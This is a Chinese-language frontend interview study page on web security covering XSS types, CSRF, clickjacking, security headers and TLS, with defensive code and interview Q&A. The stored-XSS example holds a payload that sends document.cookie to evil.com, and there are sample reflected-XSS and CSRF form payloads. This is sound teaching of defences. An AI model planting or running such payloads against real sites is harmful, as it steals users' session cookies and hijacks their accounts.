









<DifficultyBadge level="intermediate" />

# Web 安全

## 一句话解释

前端安全的核心是**理解浏览器的信任模型**——用户的 Cookie、页面 DOM、网络请求都是攻击面；顶级威胁依次是 **XSS（脚本注入）、CSRF（跨站请求伪造）、点击劫持、中间人攻击**；防御的黄金法则是**永远不信任用户输入 + 合理使用安全头部 + HTTPS 全站覆盖**。

## 核心流程



## 深入理解

### 1. XSS（跨站脚本攻击）— 最危险的 Web 漏洞

**原理：** 攻击者将恶意脚本注入到页面中，当其他用户浏览时执行。



#### 三种 XSS 类型

| 类型 | 触发方式 | 危害 | 典型场景 |
|------|---------|------|---------|
| **存储型** | 恶意代码存到服务器 | 🚨 最高：所有访问者 | 评论区、用户简介、富文本 |
| **反射型** | 恶意代码在 URL 参数中 | ⚡ 中等：需诱导点击 | 搜索页、错误页 |
| **DOM 型** | 前端 JS 动态拼接 DOM | ⚡ 中等：服务端无感知 | 客户端渲染的 URL 参数 |

```javascript
// 🚨 存储型 XSS 示例
// 用户在评论区提交: <script>document.location='https://evil.com/?cookie='+document.cookie</script>
// 服务端未转义直接存储并展示 → 所有查看该评论的用户 Cookie 被窃取

// 🚨 反射型 XSS 示例
// URL: https://example.com/search?q=<script>alert('XSS')</script>
// 服务端直接输出搜索词: <div>搜索结果: <script>alert('XSS')</script></div>

// 🚨 DOM 型 XSS 示例
const userInput = new URLSearchParams(window.location.search).get('name')
// ❌ 危险！直接 innerHTML
document.getElementById('greeting').innerHTML = `你好, ${userInput}!`
```

#### XSS 防御全方案



```javascript
// ✅ 防御方案 1：输出转义（前端后端都该做）
function escapeHtml(str) {
  const map = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
  }
  return str.replace(/[&<>"']/g, char => map[char])
}

// 渲染时转义
document.getElementById('comment').textContent = userInput  // ✅ 用 textContent
// document.getElementById('comment').innerHTML = userInput  // ❌ 危险

// ✅ 防御方案 2：使用现成库（推荐 DOMPurify）
import DOMPurify from 'dompurify'

const sanitized = DOMPurify.sanitize(userHTML, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
  ALLOWED_ATTR: ['href'],
})
document.getElementById('content').innerHTML = sanitized

// ✅ 防御方案 3：React/Vue 的自动转义
const userContent = '<script>alert("xss")</script>'

// React: JSX 默认转义
// <div>{userContent}</div> → 直接显示文本，不会执行

// Vue: 模板插值默认转义
// <div>{{ userContent }}</div> → 直接显示文本

// ❌ 除非你明确使用:
// React: dangerouslySetInnerHTML={{ __html: userContent }}
// Vue: v-html="userContent"
```

---

### 2. CSRF（跨站请求伪造）— 利用你的身份

**原理：** 用户登录了信任网站 A，然后在**未登出**的情况下访问恶意网站 B——B 网站利用 A 网站的 Cookie，**假冒用户身份**向 A 发起请求。



**CSRF 的核心攻击条件：**
1. 用户登录了目标站点（Cookie 未过期）
2. 用户访问了恶意站点
3. 目标站点没有 CSRF 防御

#### CSRF 三种常见攻击方式

| 攻击载体 | 示例 | 限制 |
|---------|------|------|
| `` / `<script>` | `` | 只能 GET，看不到响应 |
| `<form>` 自动提交 | `<form action="https://bank.com/transfer" method="POST">` | 可以 POST，需要自动 submit |
| XMLHttpRequest / fetch | 严格同源策略默认阻止跨域请求 | 需要 CORS 配合才能发 |

#### CSRF 防御方案



```javascript
// ✅ 方案 1：CSRF Token（最主流）
// 后端渲染页面时注入 Token
// <meta name="csrf-token" content="随机且与 Session 绑定的 Token">

// 前端在请求时带上
const token = document.querySelector('meta[name="csrf-token"]').content

fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': token,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({ to: 'user2', amount: 100 })
})

// ✅ 方案 2：SameSite Cookie（现代浏览器，2020+）
// 后端设置 Cookie 时
// Set-Cookie: session=abc123; SameSite=Lax; Secure

// SameSite 三种模式：
// Strict: 完全禁止跨站发送 Cookie（用户体验差）
// Lax: ✅ 默认值，GET 导航（点击链接）会发，POST 等不会
// None: 允许跨站发送（需同时设置 Secure）

// ✅ 方案 3：验证 Referer/Origin（简单有效）
// 后端检查请求头
function checkCSRF(request) {
  const referer = request.headers.get('Referer')
  const origin = request.headers.get('Origin')
  
  // 来自允许的域名才放行
  const allowedOrigins = ['https://bank.com', 'https://www.bank.com']
  
  if (origin && allowedOrigins.includes(origin)) return true
  if (referer && allowedOrigins.some(o => referer.startsWith(o))) return true
  
  return false  // 可能是 CSRF
}
```

---

### 3. 点击劫持（Clickjacking）— 你点的不是你以为的

**原理：** 攻击者用透明的 iframe 覆盖在恶意页面的按钮上——你以为点了"抽奖"，实际上点了"删除账号"。



**防御方案：**

```nginx
# Nginx 添加 X-Frame-Options
add_header X-Frame-Options DENY;
# SAMEORIGIN: 允许同源 iframe
# DENY: 完全禁止 iframe
```

```javascript
// 或者用 CSP 的 frame-ancestors（更灵活）
// Content-Security-Policy: frame-ancestors 'self';
// 只允许同源页面使用 iframe 嵌入

// 更严格的：只允许特定域名
// Content-Security-Policy: frame-ancestors https://trusted.com;
```

---

### 4. 安全头部（Security Headers）完整清单



**生产环境推荐配置：**

```nginx
# Nginx 全站安全头部配置
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "DENY" always;
add_header X-XSS-Protection "1; mode=block" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;

# Content-Security-Policy（按需配置）
add_header Content-Security-Policy "
    default-src 'self';
    script-src 'self' 'unsafe-inline' https://cdn.example.com;
    style-src 'self' 'unsafe-inline';
    img-src 'self' https: data:;
    font-src 'self' https://fonts.gstatic.com;
    connect-src 'self' https://api.example.com;
    frame-ancestors 'none';
" always;
```

```javascript
// 各头部的作用速查
const securityHeaders = {
  'Strict-Transport-Security':   // 强制浏览器用 HTTPS 访问
    'max-age=31536000; includeSubDomains',
  
  'Content-Security-Policy':     // 资源白名单，XSS 核心防御
    "script-src 'self'; object-src 'none'",
  
  'X-Content-Type-Options':      // 禁止 MIME 嗅探（防止脚本伪装图片）
    'nosniff',
  
  'X-Frame-Options':            // 防点击劫持
    'DENY',
  
  'Referrer-Policy':            // 控制 Referer 头携带多少信息
    'strict-origin-when-cross-origin',
  
  'Permissions-Policy':         // 控制浏览器 API 权限
    'camera=(), microphone=(), geolocation=()'
}
```

---

### 5. HTTPS/TLS 原理



**TLS 的两阶段加密：**

| 阶段 | 加密方式 | 用途 |
|------|---------|------|
| 握手阶段 | **非对称加密**（RSA/ECDHE） | 安全交换对称密钥 |
| 数据传输 | **对称加密**（AES-256-GCM / ChaCha20） | 高效加密通信内容 |

> **面试关键：** 为什么不用纯非对称加密？因为非对称加密计算量很大（慢数百倍），仅用于握手阶段交换对称密钥。对称加密快得多，适合大量数据传输。

---

## 安全清单速查



## 面试问法

- 🔥 **XSS 是什么？三种类型？怎么防御？**
  - 存储型：恶意代码存服务器 → 所有访问者触发
  - 反射型：恶意代码在 URL → 需诱导点击
  - DOM 型：前端 JS 直接拼接 DOM 导致
  - 防御：输出转义 + CSP + HttpOnly Cookie + DOMPurify

- 🔥 **CSRF 是什么？和 XSS 有什么区别？**
  - CSRF：盗用你的身份发请求（你不知情）
  - XSS：在你的页面执行脚本（你被害执行）
  - 区别：XSS 攻**击页面本身**，CSRF 利**用你的身份**
  - 防御：CSRF Token + SameSite Cookie + Referer 验证

- 🔥 **CSP 怎么配置？有什么作用？**
  - `Content-Security-Policy: script-src 'self'; style-src 'self' 'unsafe-inline'`
  - 作用：白名单控制哪些来源的脚本/样式可以执行
  - 即使有 XSS 漏洞，CSP 也能阻止恶意代码执行
  - `report-uri / report-to` 可以上报违规行为

- ⭐ **HTTPS 的 TLS 握手过程？**
  - ClientHello → ServerHello + 证书 → 验证证书 → 交换 Pre-Master Secret → 派生对称密钥 → Finished
  - 非对称加密交换密钥，对称加密传输数据

- ⭐ **SameSite Cookie 的三种模式？**
  - Strict：完全禁止跨站，最安全但体验差
  - Lax：默认值，GET 导航允许，POST/表单/动态请求禁止
  - None：允许跨站，必须配合 Secure（仅 HTTPS）

- ⭐ **点击劫持怎么防御？**
  - `X-Frame-Options: DENY` 或 `SAMEORIGIN`
  - 或 CSP 的 `frame-ancestors 'none'`
  - 如果必须用 iframe，考虑 JS 的 `framekiller`（不过不推荐仅靠 JS）

- 📌 **子资源完整性（Subresource Integrity）？**
  - 加载 CDN 资源时加 `integrity` 属性验证哈希
  - `script src="https://cdn.example.com/lib.js" integrity="sha384-xxxxx"`
  - 防止 CDN 被篡改导致的安全问题

## 💡 AI 辅助学习

> 用这个 Prompt 深入理解 Web 安全：
>
> "我是一个前端开发者，正在准备高级面试。请帮我设计一个 Node.js (Express) 的安全配置方案：
> 1. 给出完整的 helmet 配置（CSP / HSTS / X-Frame / XSS-Protection 等）
> 2. 模拟一个存储型 XSS 攻击场景：用户提交评论包含恶意脚本，展示攻击前后的差异
> 3. 模拟一个 CSRF 攻击场景：攻击者页面构造转账请求，展示防御（CSRF Token + SameSite）效果
> 4. 给出一份前端安全清单（10+ 条），按优先级排序

## 关联知识

- [跨域全解](./browser-cors) — CORS 与同源策略
- [浏览器存储](./browser-storage) — Cookie 安全属性
- [浏览器渲染流水线](./browser-rendering) — 安全头部对资源加载的影响
- [工程架构 - 错误监控](../engineering/error-monitoring) — 安全事件的监控与上报
